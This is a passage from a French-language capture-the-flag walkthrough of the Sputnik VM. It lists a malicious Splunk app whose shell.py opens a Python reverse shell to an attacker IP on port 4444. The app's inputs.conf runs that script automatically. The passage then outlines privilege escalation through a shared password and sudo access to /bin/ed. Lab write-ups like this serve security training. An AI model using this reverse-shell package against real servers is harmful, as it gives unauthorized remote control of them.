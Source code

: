 C'est tout bon, nous disposons d'un shell sur la VM ! Au fait, à quoi ressemble ```splunk-shell.tar.gz``` ?

```console
root@blinils:~# tar -xzf splunk-shell.tar.gz
root@blinils:~# tree splunk-shell
splunk-shell
├── appserver
│   └── static
│       └── application.css
├── bin
│   └── shell.py
├── default
│   ├── app.conf
│   ├── indexes.conf
│   ├── inputs.conf
│   └── props.conf
├── local
│   └── app.conf
├── logs
│   ├── maillog
│   └── maillog.1
└── metadata
    ├── default.meta
    └── local.meta

7 directories, 11 files


root@blinils:~# cd splunk-shell/
root@blinils:~/splunk-shell# cat bin/shell.py
import sys,socket,os,pty
ip="192.168.56.102"
port="4444"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

root@blinils:~/splunk-shell# cat default/inputs.conf 
#   Version 1.0.0
# Creates an input for sample data.

[script://./bin/shell.py]
disabled = 0
interval 10
sourcetype = fun
```

## Élévation de privilèges avec le binaire ed

L'objectif est désormais de devenir root sur le serveur Sputnik. Une rapide vérification avec [__LinEnum.sh__](https://github.com/rebootuser/LinEnum) et [__linuxprivchecker.py__](https://github.com/sleventyeleven/linuxprivchecker) permet de s'orienter vers une solution beaucoup plus simple que prévu : le compte Unix ```splunk``` et le compte ```sputnik``` partagent le même mot de passe. La commande ```sudo -l``` affiche la configuration sudo pour l'utilisateur courant ; l'utilisateur ```splunk``` est autorisé à exécuter la commande ```/bin/ed``` via sudo. Un petit tour sur l'excellent site [GTFOBins](https://gtfobins.github.io/gtfobins/perl/) nous permet d'obtenir un snippet pour élever nos privilèges et passer root avec le binaire ed.
